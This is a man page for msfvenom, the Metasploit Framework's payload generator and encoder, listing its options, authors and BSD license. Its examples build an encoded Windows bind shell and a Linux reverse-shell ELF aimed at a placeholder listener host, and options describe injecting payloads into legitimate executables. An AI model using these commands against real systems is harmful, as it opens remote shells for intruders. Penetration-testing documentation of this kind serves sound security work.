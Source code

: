 .TH MSFVENOM 1 "July 23, 2015" "4.11.4" "Metasploit Framework - msfvenom"
.SH NAME
msfvenom - Payload Generator and Encoder
.SH SYNOPSIS
msfvenom [options] <var=val>
.SH DESCRIPTION
.B
Msfvenom 
is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. Msfvenom has replaced both msfpayload and msfencode as of 
.B
June 8th, 2015.
.SH OPTIONS
.PP
-p, --payload [payload]	Payload to use. Specify a '-' or stdin to use custom payloads
.br
    --payload-options	List the payload's standard options
.TP
-l, --list  [module_type]   
List a module type example: payloads, encoders, nops, all
.TP
-n, --nopsled  [length]        
Prepend a nopsled of [length] size on to the payload
.TP
-f, --format  [format]        
Output format (use --help-formats for a list)
.TP
--help-formats               
List available formats
.TP
-e, --encoder  [encoder]       
The encoder to use
.TP
-a, --arch  [architecture]  
The architecture to use
.TP
--platform   [platform]      
The platform of the payload
.br
Cisco or cisco, OSX or osx, Solaris or solaris, BSD or bsd, OpenBSD or openbsd, Firefox or firefox, BSDi or bsdi, NetBSD or netbsd, NodeJS or nodejs, FreeBSD or freebsd, Python or python, AIX or aix, JavaScript or javascript, HPUX or hpux, PHP or php, Irix or irix, Unix or unix, Linux or linux, Ruby or ruby, Java or java, Android or android, Netware or netware, Windows or windows
.PP
-s, --space [length]
The maximum size of the resulting payload
.br
    --encoder-space [length] 
      The maximum size of the encoded payload (defaults to the -s value)
.TP
-b, --bad-chars  [list]          
The list of characters to avoid example: '\\x00\\xff'
.TP
-i, --iterations  [count]         
The number of times to encode the payload
.TP
-c, --add-code  [path]          
Specify an additional win32 shellcode file to include
.TP
-x, --template  [path]          
Specify a custom executable file to use as a template
.TP
-k, --keep                       
Preserve the template behavior and inject the payload as a new thread
.TP
-o, --out  [path]              
Save the payload
.TP
-v, --var-name  [name]
Specify a custom variable name to use for certain output formats
.TP
--smallest
Generate the smallest possible payload
.TP
-h, --help                       
Show this message
.TP
--help-formats               
List available formats
.SH EXAMPLE
msfvenom --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b "\\x00" -f python
.br
msfvenom --platform linux -p linux/x86/shell/reverse_tcp LHOST=w.z.y.z LPORT=443 -b "\\x00" -f elf -o file.bin
.br


For more examples visit
.B
https://www.offensive-security.com/metasploit-unleashed/msfvenom
.SH SEE ALSO
msfcli(1) -
.I
deprecated
-
.br
msfconsole(1)
.br
msfpayload(1) -
.I
deprecated
-
.br
msfencode(1) -
.I
deprecated
-
.SH AUTHOR(S)
.TP
.B
Creator
HD Moore - @hdmoore / hdm@metasploit.com
.br
Man Page Author: Kali Linux\*(Tm
File man page bug reports at 
.B
https://bugs.kali.org
.SH COPYRIGHT
Copyright (C) 2006-2015, Rapid7 Inc.
All rights reserved.

Redistribution and use in source and binary forms, with or without modification,
are permitted provided that the following conditions are met:
.TP
* 
Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
.TP
* 
Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution. 
.TP
* 
Neither the name of Rapid7 LLC nor the names of its contributors may be used to endorse or promote products derived from this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT OWNER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE. 

The Metasploit Framework is provided under the 3-clause BSD license above.

The copyright on this package is held by Rapid7 LLC.

This license does not apply to several components within the Metasploit
Framework source tree.  For more details see the LICENSE file.
